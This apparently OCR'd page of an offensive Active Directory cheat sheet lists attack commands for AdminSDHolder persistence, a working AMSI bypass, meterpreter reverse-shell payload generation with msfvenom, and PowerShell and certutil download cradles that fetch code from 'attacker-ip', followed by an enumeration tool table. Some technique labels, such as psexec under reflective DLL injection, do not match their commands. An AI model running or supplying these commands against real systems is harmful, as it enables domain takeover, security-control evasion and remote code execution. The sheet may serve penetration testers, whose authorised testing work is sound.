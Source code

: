 ### AdminSDHolder

```bash
# Modify AdminSDHolder
python3 dacledit.py -action 'write' -rights 'FullControl' -principal 'attacker' -target 'CN=AdminSDHolder,CN=System,DC=domain,DC=com' domain.com/username:password
```

---

## 🥷 Defense Evasion

### AMSI Bypass

```powershell
# AMSI Bypass
$a = [Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c = $b}};$d = $c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f = $e}};$g = $f.GetValue($null);[IntPtr]$ptr = $g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

### Process Injection

```bash
# Reflective DLL Injection
python3 psexec.py -k -no-pass domain.com/username@target-hostname -codec 'windows-1252'

# Process Hollowing
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o payload.exe
```

### Living Off The Land

```bash
# PowerShell Download Cradle
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://attacker-ip/script.ps1')"

# Certutil Download
certutil -urlcache -split -f http://attacker-ip/file.exe file.exe
```

---

## 🛠️ Tools Arsenal

### Enumeration Tools

| Tool | Purpose | Usage |
|------|---------|-------|
| **BloodHound** | AD Relationship Mapping | `bloodhound-python -u user -p pass -d domain.com -dc dc.domain.com -c all` |
| **PowerView** | PowerShell AD Enumeration | `Get-NetDomain`, `Get-NetUser`, `Get-NetGroup` |
| **ldapdomaindump** | LDAP Information Dumping | `ldapdomaindump -u domain\\user -p pass dc-ip` |
| **enum4linux** | SMB/LDAP Enumeration | `enum4linux -a target-ip` |
